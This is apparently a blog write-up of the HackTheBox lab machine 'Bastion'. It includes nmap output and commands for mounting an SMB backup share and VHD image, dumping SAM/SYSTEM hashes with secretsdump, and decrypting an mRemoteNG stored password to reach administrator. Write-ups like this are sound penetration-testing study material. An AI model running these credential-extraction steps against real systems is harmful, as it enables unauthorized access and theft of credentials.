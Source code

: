 ```yaml
---
title: "Bastion - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Bastion
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Bastion
![](https://kar0nx.github.io/assets/images/writeup/68c7186b753828391c67c4f737f5400f.webp)
 
## Reconnaissance

IP: 10.10.10.134
### NMAP

```
nmap -T4 -p- -A 10.10.10.134
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 15:20 EDT
Stats: 0:01:49 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 7.69% done; ETC: 15:23 (0:01:12 remaining)
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 46.15% done; ETC: 15:23 (0:00:19 remaining)
Stats: 0:02:37 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 46.15% done; ETC: 15:24 (0:01:03 remaining)
Stats: 0:02:49 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 15:23 (0:00:00 remaining)
Nmap scan report for 10.10.10.134
Host is up (0.034s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/23%OT=22%CT=1%CU=33639%PV=Y%DS=2%DC=T%G=Y%TM=67E0
OS:5FC6%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%
OS:TS=A)SEQ(SP=FA%GCD=1%ISR=FE%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M53CNW8ST11%
OS:O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11
OS:)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=N)ECN(R=Y%DF=
OS:Y%T=80%W=2000%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q
OS:=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -20m53s, deviation: 34m35s, median: -55s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-23T20:22:51+01:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-03-23T19:22:50
|_  start_date: 2025-03-23T19:17:46

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   34.24 ms 10.10.14.1
2   34.52 ms 10.10.10.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.56 seconds
```

## SMB

```
smbclient -L //10.10.10.134
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323202658.png)

```
cat note.txt

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25

https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0   ---- for encrypted 

```
mkdir /mnt/remote

mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw

mkdir /mnt/vhd

guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/'Backup 2019-02-22 124351'/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323210628.png)

looking for credentials ssh logins etc

```
/mnt/vhd/Windows/System32/config/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323210847.png)

```
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323211331.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323211512.png)

```
ssh L4mpje@10.10.10.134 
```

```
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323212806.png)

https://github.com/haseebT/mRemoteNG-Decrypt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323213707.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323213901.png)

```
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250323214520.png)

```
cd Desktop
type root.txt
```